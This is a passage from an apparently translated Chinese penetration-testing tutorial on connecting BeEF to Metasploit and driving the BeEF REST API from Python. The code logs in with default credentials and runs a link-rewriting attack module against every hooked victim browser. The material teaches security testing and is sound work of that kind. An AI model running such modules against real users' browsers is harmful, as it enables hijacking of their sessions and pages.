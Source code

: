 ```py
metasploit:
enable: true
```

主配置文件已准备好支持 Metasploit 扩展，并且 MSGRPC 服务已启动。现在，我们必须更新扩展设置以更新连接详细信息到 MSGRPC 服务器。要做到这一点，编辑 Metasploit 扩展的配置文件（`extensions/metasploit/config.xml`）：

![连接 BeEF 与 Metasploit](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/eff-py-pentest/img/4323OS_09_07.jpg)

现在，我们可以启动 BeEF。如果连接成功，将会有一个额外的通知，指示加载的 Metasploit 利用的数量如下：

![连接 BeEF 与 Metasploit](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/eff-py-pentest/img/Capture-2.jpg)

### 使用 Python 访问 BeEF API

BeEF 的 Rest API 几乎包含了从 Web UI 执行的自动化活动所需的一切。这个 API 并不复杂，因为只需要发送带有正确参数的 HTTP 请求。因此，可以使用 Python 使用不同的库自动化这些 HTTP 请求。

正如我们在前几章中讨论的，Python 有许多处理 HTTP 请求的库，如`urllib`、`urllib2`、`httplib`和`requests`。在这里，我们将使用一个简单的库，称为 BeEF-API，它是使用`requests`模块编写的。

我们可以从 GitHub [`github.com/byt3bl33d3r/BeEF-API`](https://github.com/byt3bl33d3r/BeEF-API)下载 BeEF-API Python 库。要安装它，只需运行带有参数`install`的`setup.py`脚本。

然后，我们可以导入`BeefAPI`模块并登录到 BeEF-API：

```py
from beefapi import BeefAPI
Beef =  BeefAPI ({})
Beef.login ( 'beef' , 'beef' )
```

现在，我们可以列出所有加载的模块：

```py
for module in beef.modules: 
   print module.id, module.name
```

我们可以使用以下代码搜索特定字符串的模块：

```py
for module in beef.modules.findbyname('firefox'):
   print module.id, module.name
```

这将打印出所有名称中包含字符串`firefox`的模块。

我们可以针对一个或多个挂钩浏览器运行一个模块，为此我们必须获取相应的浏览器对象，然后通过指定要针对浏览器使用的模块的标识符在其上运行该模块。每个挂钩浏览器对象都有一个名为`run`的方法，该方法接收表示模块标识符的数值作为参数：

```py
for hook in  beef.hooked_browsers.online:
   commandID=  hook.run(231)['command_id']
   print  beef.modules.findbyid(231).results(hook.session, commandID)
```

具有标识符`231`的模块是*替换视频*模块。该模块将重写所有匹配链接的 href 属性。`run`方法将执行指定的模块，并以`.json`格式返回一个带有命令标识符(`command_id`)的结构，随后将用于获取模块返回的结果。
